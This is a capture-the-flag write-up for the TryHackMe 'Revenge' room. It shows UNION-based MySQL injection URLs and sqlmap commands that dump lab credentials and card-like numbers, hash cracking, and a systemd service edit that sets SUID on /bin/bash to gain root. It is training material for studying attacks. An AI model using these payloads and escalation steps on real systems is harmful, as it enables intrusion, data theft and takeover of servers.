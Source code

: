 # 42 - Revenge (MySQL Injection)

Room Link --> [https://tryhackme.com/room/revenge](https://tryhackme.com/room/revenge)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

After Navigating round the entire page, there is a `/products` page that is vulnerable to SQL injection.

If you navigate to a page that dosen't exist, it displays an error.&#x20;

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Number of Columns

`http://10.10.157.23/products/5 UNION SELECT 1,2,3,4,5,6,7,8-- -` - there are 8 columns, if you enter `9` you get an error, and again we see that both columns 8 and 2 are visible so we can output our queries from either of them.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Current User of the DB

`http://10.10.157.23/products/5%20UNION%20SELECT%201,current_user(),3,4,5,6,7,8`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Its the root user.

### Schema/DB Name

`http://10.10.157.23/products/5%20UNION%20SELECT%201,database(),3,4,5,6,7,8`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Or we can do the below to dump all schemas/dbs**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(schema_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.SCHEMATA` - or we can use the "JSON\_ARRAYAGG" with the "CONCAT" function to view all DB/Schema names.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Table Name

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(table_name),3,4,5,6,7,8 from information_schema.tables where table_schema="duckyinc"` -&#x20;

Table name is --> product

**Or we can do the below to dump all tables in the "duckyinc" schema/db**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(table_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema="duckyinc"`&#x20;

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Columns in Table

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="product"`&#x20;

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now:

Under the \`system\_user" Table, these are the columns:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code lineNumbers="true" %}
```bash
["id", "username", "_password", "email"]
```
{% endcode %}

Under the "user" Table, there are many columns here:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code overflow="wrap" lineNumbers="true" %}
```bash
["id", "username", "_password", "credit_card", "email", "company", "Host", "User", "Select_priv", "Insert_priv", "Update_priv", "Delete_priv", "Create_priv", "Drop_priv", "Reload_priv", "Shutdown_priv", "Process_priv", "File_priv", "Grant_priv", "References_priv", "Index_priv", "Alter_priv", "Show_db_priv", "Super_priv", "Create_tmp_table_priv", "Lock_tables_priv", "Execute_priv", "Repl_slave_priv", "Repl_client_priv", "Create_view_priv", "Show_view_priv", "Create_routine_priv", "Alter_routine_priv", "Create_user_priv", "Event_priv", "Trigger_priv", "Create_tablespace_priv", "ssl_type", "ssl_cipher", "x509_issuer", "x509_subject", "max_questions", "max_updates", "max_connections", "max_user_connections", "plugin", "authentication_string", "password_expired", "password_last_changed", "password_lifetime", "account_locked"]
```
{% endcode %}

But the "username, password, creditcard" are what we need to check out.

### Dump Data

We can use the `LIMIT` statement to view all the data one by one.

**1st row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 0,1` .

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**2nd row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 1,1`

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code lineNumbers="true" %}
```bash
1-server-admin-$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a-sadmin@duckyinc.org
2-kmotley-$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa-kmotley@duckyinc.org
3-dhughes-$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK-dhughes@duckyinc.org

```
{% endcode %}

### Using Sqlmap

{% code lineNumbers="true" %}
```bash
# dump the dbs/schemas
sqlmap 10.10.157.23/products/1 --batch --dbs

# dump tables for the "duckyinc" schema/db.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc --tables

# dump the data.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc -T user --dump


# output
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>The flag is also here.</p></figcaption></figure>

### Initial Access

#### Moving forward to Cracking the hashes.

<figure><img src=".gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

The password for the `server-admin` was cracked successfully.

<figure><img src=".gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l` .

<figure><img src=".gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

We can modify the "duckyinc.service" file as root.

We can modify this service to our own vulnerable version which will give us a root shell. This will give `/bin/bash` a SUID bit set.

```bash
# edit the service file to:
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target

# after editing the file.
server-admin@duckyinc:~$ sudo -u root /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo -u root /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ ls -l /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

<figure><img src=".gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

And we are root:

<figure><img src=".gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

But if we see, we do not have the root flag in `/root` directory. We know from the note we got that we need to deface the front page in order to complete the challenge.

If we check the root dir, we can see a `.vininfo` file, making reference to a `/var/www/duckyinc/templates/index.html` - this is the index page of the company website.

```
nano /var/www/duckyinc/templates/index.html
```

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-qYnnkX3DZIE/X6_mk-ogPfI/AAAAAAAAqqM/627nZBkUVp8n9p-_OWj3vwM7W2xwa5tKACLcBGAsYHQ/s16000/16.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

We list the directory again and now we can read the last flag.

<figure><img src=".gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

Done!

